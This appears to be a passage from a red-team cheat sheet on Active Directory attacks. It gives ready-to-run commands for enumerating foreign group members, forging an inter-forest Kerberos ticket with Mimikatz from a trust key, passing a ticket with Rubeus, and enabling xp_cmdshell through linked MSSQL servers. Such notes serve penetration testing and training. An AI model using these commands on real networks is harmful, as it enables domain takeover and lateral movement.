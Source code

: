 We can now immediately DCSync the target domain, or get a reverse shell using e.g. scheduled tasks.

### Abusing inter-forest trust

Since a forest is a security boundary, we can only access domain services that have been shared with the domain we have compromised (our source domain). Use e.g. BloodHound to look for users that have an account (with the same username) in both forests and try password re-use. Additionally, we can use BloodHound or PowerView to hunt for foreign group memberships between forests. The PowerView command:

```powershell
Get-DomainForeignGroupMember -domain targetdomain.com
```
 
In some cases, it is possible that SID filtering (the protection causing the above), is *disabled* between forests. If you run `Get-DomainTrust` and you see the `TREAT_AS_EXTERNAL` property, this is the case! In this case, you can abuse the forest trust like a domain trust, as described above. Note that you still can *NOT* forge a ticket for any SID between 500 and 1000 though, so you can't become DA (not even indirectly through group inheritance). In this case, look for groups that grant e.g. local admin on the domain controller or similar non-domain privileges. For more information, refer to [this blog post](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/).

To impersonate a user from our source domain to access services in a foreign domain, we can do the following. Extract inter-forest trust key as in ['Using domain trust key']({{<ref "#using-domain-trust-key" >}}) above.

Use Mimikatz to generate a TGT for the target domain using the trust key:

```plaintext
Kerberos::golden /user:Administrator /service:krbtgt /domain:currentdomain.com /sid:S-1-5-21-1874506631-3219952063-538504511 /target:targetdomain.com /rc4:fe8884bf222153ca57468996c9b348e9 /ticket:ticket.kirbi
```

Then, use Rubeus to ask a TGS for e.g. the `CIFS` service on the target DC using this TGT.

```powershell
.\Rubeus.exe asktgs /ticket:c:\ad\tools\eucorp-tgt.kirbi /service:CIFS/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt
```

Now we can use the CIFS service on the target forest's DC as the DA of our source domain (again, as long as this trust was configured to exist).

### Abusing MSSQL databases for lateral movement

MSSQL databases can be linked, such that if you compromise one you can execute queries (or even OS commands!) on other databases in the context of a specific user (`sa` maybe? 😙). If this is configured, it can even be used to traverse Forest boundaries! If we have SQL execution, we can use the following commands to enumerate database links.

```sql
-- Find linked servers
EXEC sp_linkedservers

-- Run SQL query on linked server
select mylogin from openquery("TARGETSERVER", 'select SYSTEM_USER as mylogin')

-- Enable 'xp_cmdshell' on remote server and execute commands, only works if RPC is enabled
EXEC ('sp_configure ''show advanced options'', 1; reconfigure') AT TARGETSERVER
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure') AT TARGETSERVER
EXEC ('xp_cmdshell ''whoami'' ') AT TARGETSERVER
```

